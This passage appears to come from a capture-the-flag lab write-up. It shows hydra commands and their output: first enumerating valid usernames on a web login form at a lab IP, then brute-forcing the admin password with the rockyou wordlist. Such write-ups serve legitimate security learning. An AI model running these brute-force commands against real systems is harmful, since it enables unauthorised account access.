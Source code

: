 `hydra` wants a string to recognize failure. In this case, I'll give it
the string with the "." as that means the username doesn't exist, and it
will then show me the ones where the username does exist.



    root@kali# hydra -L /opt/SecLists/Usernames/cirt-default-usernames.txt -p sadfasdfasdf 10.10.10.86 http-post-form "/login:username=^USER^&password=^PASS^&submit=Login:Login failed.<"
    Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

    Hydra (http://www.thc.org/thc-hydra) starting at 2018-10-29 06:38:23
    [DATA] max 16 tasks per 1 server, overall 16 tasks, 825 login tries (l:825/p:1), ~52 tries per task
    [DATA] attacking http-post-form://10.10.10.86:80//login:username=^USER^&password=^PASS^&submit=Login:Login failed.<
    [80][http-post-form] host: 10.10.10.86   login: ADMIN   password: sadfasdfasdf
    [80][http-post-form] host: 10.10.10.86   login: Admin   password: sadfasdfasdf
    [80][http-post-form] host: 10.10.10.86   login: Audrey   password: sadfasdfasdf
    [80][http-post-form] host: 10.10.10.86   login: DEFAULT   password: sadfasdfasdf
    [80][http-post-form] host: 10.10.10.86   login: DEMO   password: sadfasdfasdf
    [80][http-post-form] host: 10.10.10.86   login: Demo   password: sadfasdfasdf
    [80][http-post-form] host: 10.10.10.86   login: admin   password: sadfasdfasdf
    [80][http-post-form] host: 10.10.10.86   login: default   password: sadfasdfasdf
    [80][http-post-form] host: 10.10.10.86   login: demo   password: sadfasdfasdf
    1 of 1 target successfully completed, 9 valid passwords found



Again, because I told `hydra` that failure was the string "Login
failed.", it's reporting any time it doesn't get that, which are valid
usernames.

#### Brute Force Password

With a small list of usernames, now I'll try for a password. rockyou is
huge, and there's no way I'll get all the way through it, but it's a
good place to start to see if anything jumps out and to let run in the
background. It finds a login for admin very quickly:



    root@kali# hydra -L usernames -P /usr/share/wordlists/rockyou.txt 10.10.10.86  http-post-form "/login:username=^USER^&password=^PASS^&submit=Login:failed"                        
    Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

    Hydra (http://www.thc.org/thc-hydra) starting at 2018-10-29 06:55:13
    [DATA] max 16 tasks per 1 server, overall 16 tasks, 57377596 login tries (l:4/p:14344399), ~3586100 tries per task
    [DATA] attacking http-post-form://10.10.10.86:80//login:username=^USER^&password=^PASS^&submit=Login:failed
    [STATUS] 1569.00 tries/min, 1569 tries in 00:01h, 57376027 to do in 609:29h, 16 active
    [80][http-post-form] host: 10.10.10.86   login: admin   password: Password1



#### Logged In Site
